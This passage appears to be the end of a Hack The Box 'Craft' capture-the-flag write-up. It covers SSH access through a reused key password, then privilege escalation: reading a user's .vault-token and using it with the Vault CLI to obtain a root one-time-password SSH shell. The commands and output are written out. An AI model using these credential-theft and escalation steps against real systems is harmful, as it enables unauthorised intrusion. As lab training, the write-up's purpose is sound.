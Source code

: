 <p>Copying the contents over to our own host we attempt to SSH into the host using the key. We're asked for the key's password, and we made an assumption that <code>gilfoyle</code> uses the same password in various places. Sure enough, we are successful and finally have access to the user flag.</p>

<p align="center">
<img src="{{ '/assets/htb-craft/user-owned.PNG' | relative_url }}">
</p>

<h1>Root exploitation</h1>

<p>For as long as it took to get to the user flag the root flag seemed much simpler in comparison. From the user homedirectory we found something interesting - a <code>.vault-token</code>.</p>

{% highlight shell %}
gilfoyle@craft:~$ cat .vault-token 
f1783c8d-41c7-0b12-d1c1-cf2aa17ac6b9
{% endhighlight %}

<p>After a bit of searching around discovered that this is a <a href="https://www.vaultproject.io/docs/secrets/ssh/one-time-ssh-passwords.html">VaultProject Token</a> and is used to generate One-Time Passwords (OTP) and can be used for various things, including SSH. This seems like an interesting avenue. Sure enough, quickly see that this is what we are dealing with by confirming that <code>vault</code> utlity is installed on the machine, and that we can see the <code>root_otp</code> SSH role is defined on the repo.</p>

<p align="center">
<img src="{{ '/assets/htb-craft/root-vault.PNG' | relative_url }}">
</p>

{% highlight shell %}
# set up vault secrets backend

vault secrets enable ssh

vault write ssh/roles/root_otp \
    key_type=otp \
    default_user=root \
    cidr_list=0.0.0.0/0
{% endhighlight %}

<p>With this information in our hands, we are able to initiate an OTP request and acquire a root shell.</p>

{% highlight shell %}
gilfoyle@craft:/usr/bin$ vault login token=f1783c8d-41c7-0b12-d1c1-cf2aa17ac6b9
Success! You are now authenticated. The token information displayed below
is already stored in the token helper. You do NOT need to run "vault login"
again. Future Vault requests will automatically use this token.

Key                  Value
---                  -----
token                f1783c8d-41c7-0b12-d1c1-cf2aa17ac6b9
token_accessor       1dd7b9a1-f0f1-f230-dc76-46970deb5103
token_duration       ∞
token_renewable      false
token_policies       ["root"]
identity_policies    []
policies             ["root"]
{% endhighlight %}

<p align="center">
<img src="{{ '/assets/htb-craft/root-owned.PNG' | relative_url }}">
</p>

<p>And just like that we finish up our journey with Craft. Thanks everyone, until next time!</p>